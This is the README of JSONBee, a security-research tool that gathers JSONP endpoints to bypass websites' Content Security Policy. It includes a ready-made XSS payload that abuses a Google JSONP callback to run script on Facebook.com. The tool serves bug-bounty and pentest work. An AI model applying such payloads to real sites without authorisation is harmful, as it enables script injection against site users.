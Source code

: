 # JSONBee
A ready to use JSONP endpoints to help bypass content security policy of different websites.

The tool was presented during HackIT 2018 in Keiv.

# What is JSONBee?

The main idea behind this tool is to find the JSONP endpoint(s) that would help you bypass content security policy for your target website in an automated way. JSONBee takes an input of a url name (i.e. https://www.facebook.com), parses the CSP (Content-Security Policy), and automatically suggest the XSS payload that would bypass the CSP. It mainly focuses on JSONP endpoints gathered during my bug bounty hunting activities, and could be used to bypass the CSP.

JSONBee relies on 3 methods to gather the JSONP endpoints:
* The repository within this project;
* Google dorks;
* Internet archive (archive.org).

The tool is not yet fully completed as I'm still adding some validations and features too. However, the repository will be hosted here so that anyone can use it till the tool is ready.

The repo contains ready-to-use payloads that can bypass CSP for Facebook.com, Google.com and more.

**Bypasing Facebook.com Content-Security policy:**

Facebook.com allows *.google.com in its CSP policy (script-src directive), thus, below payload would work like a charm to execute JavaScript on Facebook.com:
`"><script+src="https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=alert(1337)"></script>`

If you came across a website that trusts any of the domains in jsonp.txt file in its script-src directive, then pickup a payload  that matches the domain and have fun :)

# How can you help?
You are all welcome to contribute by adding links to sites that uses JSONP endpoins/callbacks to make the repo bigger and more usefull for bug hunters, pentesters, and security researchers.
